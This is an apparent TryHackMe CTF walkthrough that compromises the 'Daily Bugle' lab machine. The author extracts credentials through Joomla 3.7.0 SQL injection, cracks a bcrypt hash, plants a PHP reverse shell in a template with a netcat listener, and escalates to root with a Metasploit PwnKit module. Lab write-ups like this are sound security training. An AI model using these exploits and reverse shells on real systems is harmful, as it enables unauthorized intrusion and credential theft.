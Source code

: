 ```yaml
---
title: Daily Bugle
date: 2022-06-22 18:32:00 -0500
categories: [Tryhackme, CTF, Walkthrough]
tags: [joomla, sqli, john, hashcat]
---
```


Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

[https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)

![0xskar](/assets/bugle01.png)

* * *

## Task 1 - Deploy

1. ``sudo nmap -Pn -sS -T4 -p- 10.10.198.207 -oN nmap_initial.txt``
2. ``sudo nmap -sV -sC -T4 -p22,80,3306 10.10.198.207 -oN nmap_second.txt``

```shell
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
```

##   Answer the questions below

**Access the web server, who robbed the bank?**

![0xskar](/assets/bugle02.png)

- spiderman

* * *

## Task 2 - Obtain user and root 

Hack into the machine and obtain the root user's credentials.

![0xskar](/assets/bugle03.png)

##   Answer the questions below

**What is the Joomla version?**

- quick google find version is @ ``/administrator/manifests/files/joomla.xml``
- version 3.7.0

*Instead of using SQLMap, why not use a python script!*

- [Joomblah.py](https://github.com/stefanlucas/Exploit-Joomla/blob/master/README.md)

```shell
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

**What is Jonah's cracked password?**

- ``john jonah-pass.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt --format=bcrypt``
- spiderman123

**What is the user flag?**

1. Travel to templated and customise index.php to reverse shell ``https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php``
2. setup netcat listener, and template preview to get shell.

```shell
┌──(0xskar㉿cocokali)-[~/thm/rooms/dailybugle]
└─$ nc -nvlp 7777          
listening on [any] 7777 ...
connect to [10.x.x.x] from (UNKNOWN) [10.10.16.193] 41306
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 18:10:50 up  1:06,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache
```

3. download and run ./linpeas.sh

**Things to look at:**

- OS: Linux version 3.10.0-1062.el7.x86_64
- Sudo version 1.8.23
- Vulnerable to ``CVE-2021-4034``
- Exploit suggester ``[CVE-2016-5195] dirtycow``

```shell
meterpreter > sysinfo
Computer     : 10.10.16.193
OS           : CentOS 7.7.1908 (Linux 3.10.0-1062.el7.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

4. ``background meterpreter session``
5. ``search 2021-4034`` and ``use 0``

```shell
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > exploit

[*] Started reverse TCP handler on 10.x.x.x:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.ssbbnl
[+] The target is vulnerable.
[*] Writing '/tmp/.ozchxfocjj/corwmy/corwmy.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.ozchxfocjj
[*] Sending stage (3020772 bytes) to 10.10.16.193
[+] Deleted /tmp/.ozchxfocjj/corwmy/corwmy.so
[+] Deleted /tmp/.ozchxfocjj/.ztjfms
[+] Deleted /tmp/.ozchxfocjj
[*] Meterpreter session 2 opened (10.x.x.x:4444 -> 10.10.16.193:48942) at 2022-06-23 16:04:50 -0700

meterpreter > shell
Process 22448 created.
Channel 1 created.
whoami
root
```

**What is the root flag?**

- Get flags with root shell! Was fun!

* * * 
